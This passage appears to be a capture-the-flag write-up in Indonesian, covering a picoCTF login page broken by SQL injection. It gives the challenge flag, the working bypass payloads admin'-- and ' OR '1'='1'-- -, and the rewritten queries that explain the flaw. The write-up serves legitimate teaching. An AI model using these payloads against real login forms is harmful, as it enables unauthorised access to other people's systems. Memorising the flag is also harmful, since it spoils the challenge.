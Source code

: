 

---

### Step 3: Successful Authentication Bypass
- Setelah mencoba beberapa payload, berhasil bypass authentication
- Login berhasil dan mendapat akses ke sistem
- Flag ditampilkan setelah login sukses

<img width="1918" height="1077" alt="last" src="https://github.com/user-attachments/assets/b36b6c57-7541-41ee-a9ff-60d33aa044c3" />


---

### Step 4: Flag Capture
Setelah berhasil login, flag ditampilkan:

```
picoCTF{s0m3_SQL_fb3fe2ad}
```

---

## 4. Payload yang Berhasil
```sql
Username: admin'--
Password: (any value)
```

Atau:

```sql
Username: ' OR '1'='1'-- -
Password: (any value)
```

---

## 5. Penjelasan Teknis

### Vulnerability Analysis:
- Website menggunakan query SQL yang rentan terhadap injection
- Kemungkinan query backend:
```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

### Exploitation:
- Dengan payload `admin'--`, query menjadi:
```sql
SELECT * FROM users WHERE username='admin'-- AND password='...'
```
- Comment `--` membuat bagian password diabaikan
- Atau dengan `' OR '1'='1'-- -`:
```sql
SELECT * FROM users WHERE username='' OR '1'='1'-- - AND password='...'
```
- Kondisi `'1'='1'` selalu true, sehingga authentication bypass berhasil

---